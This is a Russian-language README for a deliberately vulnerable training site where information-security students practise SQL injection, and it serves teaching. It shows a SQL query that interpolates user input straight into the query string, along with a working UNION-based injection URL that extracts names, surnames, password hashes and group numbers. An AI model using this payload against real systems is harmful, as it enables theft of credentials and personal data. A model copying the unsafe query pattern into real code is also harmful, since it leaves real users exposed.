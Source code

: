 # Тестовая площадка для изучения студентами SQL инъекций v2

Намеренно сделана с нарушениями всех возможных паттернов программирования, т.к., как ясно из названия, она должна легко взламываться студентами на курсе по инфобезу. Взломать можно, вставив инъекцию на место имени пользователя при просмотре чужого профиля, т.к. страница пользователя работает так же, как список всех пользователей — в цикле выводит все результаты запроса из БД, с той лишь разницей, что запрос фильтруется по никнейму пользователя, переданному в адресной строке.

Запрос к БД на сервере:

```sql
SELECT nickname, status FROM users WHERE nickname = '{nickname}'
```

Инъекция в URL адресе:

http://{hostname}/users/' OR 1=1 UNION SELECT nickname, name from users UNION SELECT nickname, surname from users UNION SELECT nickname, pwd_hash from users UNION SELECT nickname, group_num from users--

Так выглядит запрос с SQL инъекцией:

```sql
SELECT nickname, status FROM users WHERE nickname = '' OR 1=1 UNION SELECT nickname, name from users UNION SELECT nickname, surname from users UNION SELECT nickname, pwd_hash from users UNION SELECT nickname, group_num from users--'
```

Выдача на сайте:

![Снимок экрана](sql_injection_example.png)


## Как запустить?

```bash
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
uvicorn app.main:app --host 0.0.0.0 --port 8000
```


# Как заблокировать решение?

В app/core/config.py записать регулярное выражение в BLOCKED_SOLUTIONS и перезапустить сервер.
